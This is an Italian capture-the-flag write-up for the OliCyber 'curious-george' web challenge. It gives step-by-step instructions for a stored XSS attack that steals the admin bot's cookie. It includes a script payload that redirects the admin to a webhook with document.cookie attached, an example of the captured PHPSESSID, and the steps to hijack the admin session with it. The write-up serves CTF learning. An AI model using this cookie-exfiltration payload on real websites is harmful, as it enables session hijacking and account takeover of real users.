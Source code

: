 
 - Creare un account e loggarsi
 - Copiare l'URL della vostra pagina (http://curious-george.challs.olicyber.it?id=your-id)
 - Cliccare su edit profile
 - Inserire il seguente payload (prendere l'URL da webhook.site, attenzione ad inserire l'URL giusto e non quello con dentro `#!`)
```html
<script>
window.location.href = "http://yourwebhook.site/?cookie=" + document.cookie
</script>
```
Questo payload ci permette di redirectare l'admin al nostro webhook, inserendo il suo cookie in un query parameter
 - Cliccare su "update"
 - Andare su http://curious-george.challs.olicyber.it/bug.php
 - Inserire l'URL della vostra pagina
 - Eseguire il file pow-modified.py e incollare sulla pagina /bug.php ciò che printa lo script python
 - Clicca submit
 - Sul webhook troveremo una richiesta simile:
   `http://webhook.site/3c132b32-cbda91f-bc329af-9f82c22?cookie=PHPSESSID=fshaonidmsaoceuwyqeiwq`
 - Prendere quel cookie e inserirlo al posto del cookie corrente (si può sostituire sia da webhook, sia dai DevTools)
 - Visitare http://curious-george.challs.olicyber.it/index.php
